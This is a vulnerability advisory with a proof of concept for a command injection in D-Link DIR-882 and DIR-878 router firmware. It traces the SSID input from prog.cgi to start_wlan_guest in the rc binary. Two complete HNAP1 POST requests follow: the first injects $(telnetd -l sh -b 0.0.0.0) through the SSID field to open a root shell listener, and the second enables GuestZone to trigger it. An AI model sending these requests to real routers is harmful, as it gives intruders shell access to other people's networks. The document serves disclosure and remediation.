





# D-Link Vulnerability

Vendor:D-Link

Product:DIR_882、DIR_878

Version:DIR_882_FW130B06、DIR_878_FW130B08

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently. A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetWLanRadioSettings` function,`SSID` is directly passed by the attacker. After that, call the function nvram_bufset to store this input.

<div  align="center"></div>

In `rc` binary:

In `start_wlan_guest` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

The necessary condition for successfully triggering the vulnerability is to enable the GuestZone service, so we need to send two packets to complete the triggering of the vulnerability.

<div  align="center"></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `SSID`=$(telnetd -l sh -b 0.0.0.0), in (`SetWLanRadioSettings`)
* Enable GuestZone service, in (`SetGuestZoneRouterSettings`)


## PoC

We set `SSID`=$(telnetd -l sh -b 0.0.0.0), in (`SetWLanRadioSettings`)

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 812
SOAPAction: "http://purenetworks.com/HNAP1/SetWLanRadioSettings"
X-Requested-With: XMLHttpRequest
HNAP_AUTH: 88944F730FC80895668F41C60F4CD853 1727266076657
Accept: */*
Content-Type: text/xml; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/UsbSharing.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=AiLEaq1e
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetWLanRadioSettings xmlns="http://purenetworks.com/HNAP1/"><RadioID>RADIO_2.4GHz_Guest</RadioID><Enabled>true</Enabled><Mode>802.11bgn</Mode><SSID>$(telnetd -l sh -b 0.0.0.0)</SSID><SSIDBroadcast>true</SSIDBroadcast><ChannelWidth>40</ChannelWidth><Channel>0</Channel><SecondaryChannel>0</SecondaryChannel><QoS>true</QoS><ScheduleName>Always</ScheduleName><TXPower></TXPower><Coexistence>false</Coexistence><MUMIMOEnabled>true</MUMIMOEnabled><BandSteeringEnabled>true</BandSteeringEnabled><AirTimeFairnessEnabled>true</AirTimeFairnessEnabled></SetWLanRadioSettings></soap:Body></soap:Envelope>
```

<div  align="center"></div>

Enable GuestZone service, in (`SetGuestZoneRouterSettings`)

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 558
SOAPAction: "http://purenetworks.com/HNAP1/SetGuestZoneRouterSettings"
X-Requested-With: XMLHttpRequest
HNAP_AUTH: A29732C16107E917C46672943D7E3BB2 1727268039123
Accept: */*
Content-Type: text/xml; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/UsbSharing.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=Pnt8v1cG
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetGuestZoneRouterSettings xmlns="http://purenetworks.com/HNAP1/"><InternetAccessOnly>true</InternetAccessOnly><IPAddress></IPAddress><SubnetMask></SubnetMask><DHCPServer>true</DHCPServer><DHCPRangeStart></DHCPRangeStart><DHCPRangeEnd></DHCPRangeEnd><DHCPLeaseTime>0</DHCPLeaseTime></SetGuestZoneRouterSettings></soap:Body></soap:Envelope>
```

<div  align="center"></div>


## Result

Get a shell!

<div  align="center"></div>
